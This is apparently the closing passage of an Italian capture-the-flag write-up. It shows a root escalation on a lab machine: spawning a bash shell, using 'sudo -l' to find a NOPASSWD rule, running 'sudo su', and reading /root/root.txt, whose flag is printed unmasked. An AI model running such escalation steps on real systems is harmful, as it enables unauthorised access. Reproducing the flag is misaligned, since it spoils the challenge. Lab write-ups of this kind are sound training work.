 ```
/bin/bash -i
```

```
sudo -l
```
```
sudo -l
Matching Defaults entries for ubuntu on ip-10-10-230-161:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ubuntu may run the following commands on ip-10-10-230-161:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

```
possiamo diventare root senza inserire la password
```
sudo su
```
```
whoami
root
ls
index.html
node_modules
package.json
package-lock.json
server.js
ls /root
root.txt
cat /root/root.txt
2cd5a9fd3a0024bfa98d01d69241760e
```

root.txt
```
2cd5axxxxxxxxxxxxxxxxxxxx
```
